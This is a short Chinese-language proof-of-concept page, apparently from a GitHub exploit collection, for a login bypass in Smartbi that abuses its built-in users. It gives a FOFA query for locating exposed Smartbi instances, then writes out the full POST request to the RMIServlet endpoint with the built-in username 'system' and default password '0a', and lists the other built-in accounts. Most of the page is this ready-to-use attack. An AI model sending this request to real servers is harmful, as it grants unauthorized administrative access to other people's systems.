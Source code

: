# Smartbi 内置用户登陆绕过漏洞
## 资产搜索
fofa app="Smartbi"  
![](img/logo.png)
## POC
### 验证漏洞是否存在
`http://your-ip/smartbi/vision/RMIServlet`  
![](img/poc1.png)
### 利用
```h
POST /smartbi/vision/RMIServlet HTTP/1.1
Host: your-ip
Content-Type: application/x-www-form-urlencoded
 
className=UserService&methodName=loginFromDB&params=["system","0a"]
``` 
- className: 指定UserService类名
- methodName: 该类调用的方法 loginFromDB
- params: 第一个参数是内置的用户名（public、service、system）,第二个参数是默认账号的密码（默认：0a）
![](img/poc.png)
发送请求后再次刷新页面，即可成功登陆后台
